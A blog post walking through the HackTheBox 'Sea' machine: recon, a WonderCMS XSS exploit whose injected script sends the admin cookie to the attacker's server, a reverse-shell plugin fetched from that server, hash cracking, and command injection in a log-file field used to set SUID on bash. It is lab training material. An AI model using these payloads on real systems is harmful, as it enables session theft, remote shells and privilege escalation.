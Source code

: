 ```yaml
---
layout: post
title: "Sea"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox]
tags: [htb, writeup, linux, web]
pin: true
math: true
mermaid: true
image:
  path: /assets/Hack-The-Box-logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


as always starting with nmap

```bash
sudo nmap -sC -sV -p- -oN sea 10.10.11.28
```
![nmap_sea.png](/source/SEA/Pasted image 20240813000337.png)

another htb box , another website

nothing interesting in the website so , let's move to fuzzing

```bash
feroxbuster  --url http://10.129.115.194 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 500,403,404
```

![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813000823.png)

the license page 
```
MIT License

Copyright (c) 2019 turboblack

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:
```

![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813001042.png)

so we are dealing with WondwerCMS

this CVE is interesting since we are on version 3.2.0 (check http://sea.htb/themes/bike/version) [CVE](https://github.com/prodigiousMind/CVE-2023-41425 )


this script exploit  an xss to steal credential then use this creds to uplaod backdoored files

I will use the same plugins used in this exploit
```bash
wget https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip
```

we need to  change the `rev.php` file on the zip 

```php
$VERSION = "1.0";
$ip = 'UR OWN IP'; // CHANGE THIS
$port = 1337;
```


then I  will host a web server

```bash
php -S 0.0.0.0:80
```

![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813003150.png)

```bash
python3 exploit.py http://sea.htb/loginURL 10.10.14.224 1337
```

we need to find out a way to  send the link to the admin , since the web app is using `php`` let's fuzz for the .php file

```bash
feroxbuster  --url http://10.129.115.194  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 500,403,400 -x php 

```
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813003629.png)

![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813023000.png)

once we fill the form , with the malicious link in the website field

```url
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.224/script.js"></script><form+action="
```

in the `script.js`
```javascript
new Image().src='http://IP/index.php?c='+document.cookie
```

in the `index.php`
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```


we will get the admin cookie in our web server
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813023404.png)
changing the cookies , guarantee more privilege in the website , we can now upload plugin

we can install our malicious plugins now , by tampering with the request sent from this button
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813023604.png)

```HTTP
GET /?installModule=http://IP/main.zip&directoryName=violet&type=themes&token=a5d00073e50332dd0ca6d448d4ccddc9449c7ae27828bb35cee8112d67debd58 HTTP/1.1
```

by visiting http://sea.htb/themes/revshell-main/rev.php

we should get shell on our listener 
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813024341.png)

this file got my intention
`/var/www/sea/data/database.js`
if we check his content we will find a hash
```
"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
```

we need to remove the escapers to crack it
```
"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q",
```

```bash
hashcat -a 0 -m 3200 --show hash                                       
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
```

this password got us  the  user `amay`

another website is running on the port 8080 
```
amay@sea:~$ netstat -ntlp 
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:56005         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080 ---
```

```bash
amay@sea:~$ curl 127.0.0.1:8080
Unauthorized access
```

I will reuse the password of amay
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813025058.png)

I will forward  the port 8080 to my machine , so I can see what's going on in this website

```
ssh -L 7000:localhost:8080 amay@sea.htb -N
```
 on http://127.0.0.1:7000/
 ![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813025643.png)

I tried to read files , like `/root/root.txt` but that didn't work 
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813025715.png)
so I tried to inject malicious command 

to confirm that , I will ping myself
first listen on the pings
``
```bash
sudo tcpdump -i  tun0 icmp
```

```http
log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;ping+-c+1+10.10.14.224&analyze_log=
```

this works
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813030024.png)

I will run
```
chmod u+s /bin/bash
```

```http
log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68&analyze_log=
```

![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813030229.png)

![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813030247.png)
